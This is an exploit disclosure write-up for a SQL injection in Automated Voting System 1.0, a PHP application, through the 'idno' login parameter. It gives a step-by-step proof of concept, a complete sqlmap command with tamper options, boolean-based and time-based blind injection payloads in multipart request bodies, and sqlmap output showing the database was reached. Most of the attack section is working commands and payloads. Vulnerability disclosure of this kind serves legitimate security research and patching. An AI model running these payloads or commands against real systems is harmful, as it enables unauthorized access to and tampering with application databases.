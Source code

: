 # Automated_Voting_System-SQL_Injection-2
+ **Exploit Title:** Automated_Voting_System-SQL_Injection-2
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/automated-voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/AUTOMATED_VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-

## References: 

## Description:
Automated Voting System 1.0 allows SQL Injection via parameter 'idno' in "/automated%20voting/".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the voter panel: "http://localhost/automated%20voting/"
+ Fill the voter id and password then click 'Login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit.
+ In sqlmap, use 'idno' parameter to dump the database. 
```
sqlmap -r r.txt -p idno --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: MULTIPART idno ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: -----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="idno"

-4883' OR 7870=7870-- eCXU
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="password"

pass
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="login"


-----------------------------330798109512083143982793838470--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: -----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="idno"

11111' AND (SELECT 7894 FROM (SELECT(SLEEP(5)))TcOW)-- MvbQ
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="password"

pass
-----------------------------330798109512083143982793838470
Content-Disposition: form-data; name="login"


-----------------------------330798109512083143982793838470--
---
[19:31:16] [INFO] testing MySQL
got a 302 redirect to 'http://localhost/automated%20voting/vote.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[19:31:17] [INFO] confirming MySQL
[19:31:18] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[19:31:18] [INFO] fetching current database
[19:31:18] [INFO] resumed: voting
current database: 'voting'
```

+ current database: `voting`
![02](https://github.com/h4md153v63n/CVEs/assets/5091265/abe5fcf0-759b-470b-866c-6a546f8fb824)
